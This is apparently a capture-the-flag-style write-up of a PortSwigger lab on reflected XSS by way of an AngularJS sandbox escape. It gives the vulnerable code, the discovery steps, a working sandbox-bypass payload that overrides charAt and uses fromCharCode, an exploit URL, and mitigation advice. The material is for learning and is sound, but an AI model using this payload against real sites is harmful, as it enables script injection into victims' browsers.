






# Reflected XSS with AngularJS Sandbox Escape (Expert Lab)

## Overview
This lab demonstrates a reflected XSS vulnerability in an AngularJS application with a sandbox escape technique.

## Target
PortSwigger Web Security Academy Lab

## Vulnerability
Reflected Cross-Site Scripting (XSS) via AngularJS sandbox escape

---

## Analysis

```javascript
angular.module('labApp', []).controller('vulnCtrl', function($scope, $parse) {
    $scope.query = {};
    var key = 'search';
    $scope.query[key] = 'test';
    $scope.value = $parse(key)($scope.query);
});
```
The input is not directly reflected. Instead, it is processed through AngularJS expressions using {{value}}.

---

## Discovery

By adding a new parameter to the URL:

?search=test&ahmed=mohamed

We observe that Angular dynamically processes new keys:

var key = 'ahmed';
$scope.query[key] = 'mohamed';
$scope.value = $parse(key)($scope.query);

---

## Exploitation

We test expression injection using arithmetic:

```bash
?search=test&10-2=mohamed
```
Result:
The page evaluates the expression and outputs: 8

This confirms AngularJS expression execution.

---

## Sandbox Bypass

AngularJS sandbox restricts dangerous functions like eval().

To bypass this, we override the charAt function:
```javascript

toString().constructor.prototype.charAt = [].join;
```
Then we generate payload using ASCII:

x=alert(1)

Converted to:

120,61,97,108,101,114,116,40,49,41

---

## Payload
```javascript

toString().constructor.prototype.charAt%3d[].join;
[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
```
---

## Exploit URL

?search=test&
toString().constructor.prototype.charAt%3d[].join;
[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1

---

## Proof of Concept

The payload executes JavaScript and triggers alert(1).

Note: This works in Google Chrome due to AngularJS behavior differences.

---

## Impact
An attacker can execute arbitrary JavaScript in the victim’s browser.

---

## Mitigation
- Disable AngularJS expression evaluation for user input
- Sanitize input properly
- Use strict Content Security Policy (CSP)

---

## Conclusion
The application is vulnerable to AngularJS sandbox escape leading to reflected XSS.
## Screenshots

### 1. test the website 


### 2. inspect


### 3. Source Code Analysis


### 4.new var key 


### 5. Sandbox Behavior


### 6. Payload ASCII Conversion


### 7. Final Exploit Result

